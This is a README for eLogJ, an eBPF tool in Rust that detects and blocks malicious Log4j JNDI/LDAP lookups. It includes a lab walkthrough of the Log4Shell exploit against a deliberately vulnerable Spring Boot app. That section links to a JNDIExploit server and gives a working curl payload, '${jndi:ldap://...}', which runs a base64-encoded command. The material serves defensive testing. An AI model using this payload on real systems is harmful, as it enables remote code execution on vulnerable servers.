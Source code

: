 <img src="https://github.com/WillGAndre/eLogJ/blob/main/elogj.png" width="250">

# eLogJ
extended Log4j observability tool used to detect and prevent malicious JNDI (/LDAP) lookups. Currently tested in a controlled environment.<br>
- Developed with aya (https://github.com/aya-rs/aya) a Rust eBPF library.<br>
- Use in tandem with https://github.com/christophetd/log4shell-vulnerable-app (baseline).

0.1.2: Rulesets added as static file (logger-info).

### Dependencies
rust stable or nightly toolchain: `rustup install stable` / `rustup install nightly`
<br>
bpf-linker: `cargo install bpf-linker`

### Build Userspace:
> cargo build

### Build Kernelspace:
> cargo xtask build-ebpf

### Run:
> cargo xtask run

### Verbose:
> RUST_LOG=info cargo xtask run

<br>

## CVE-2021-44228

The repo (https://github.com/christophetd/log4shell-vulnerable-app) contains a Spring Boot web application which is vulnerable to the Log4Shell exploit. In order to boot this vulnerable instance, the following dependencies will be needed:<br>
## Spring Boot (Docker):
<a href="https://github.com/christophetd/log4shell-vulnerable-app/blob/main/Dockerfile">Dockerfile</a><br>
    - Log4j 2.14.1 <br>
    - JDK 1.8.0_181 <br>

## Malicious LDAP server:
>        This server will essentially receive LDAP requests triggered by the JNDI lookup in Spring Boot (Log4j) and promptly respond. The response is a second-stage payload that actually leads to RCE, since any type of action can be compiled as a (malicious) java class. JNDI lookups are triggered by the Log4j logger when it detects an explicit JNDI lookup command when logging occurs (`${jndi:`). Note that the type of transport protocol may vary (LDAP, RMI, ..).
>>  JNDI exploit server (baseline): <a href="http://web.archive.org/web/20211211031401/https://objects.githubusercontent.com/github-production-release-asset-2e65be/314785055/a6f05000-9563-11eb-9a61-aa85eca37c76?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20211211%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20211211T031401Z&X-Amz-Expires=300&X-Amz-Signature=140e57e1827c6f42275aa5cb706fdff6dc6a02f69ef41e73769ea749db582ce0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=314785055&response-content-disposition=attachment%3B%20filename%3DJNDIExploit.v1.2.zip&response-content-type=application%2Foctet-stream">JNDIExploit</a><br>
>>        Other JNDI exploits will also be explored soon.

## Explotation Steps:
### Spring Boot (Log4j) Instance:<br>
> docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929
### JNDI Server:<br>
> java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
### Curl log:<br>
> curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
### Verify code execution: <br>
> docker exec vulnerable-app ls /tmp

Note: 
 Heavily WIP, deps/wiki/docs to be added soon.
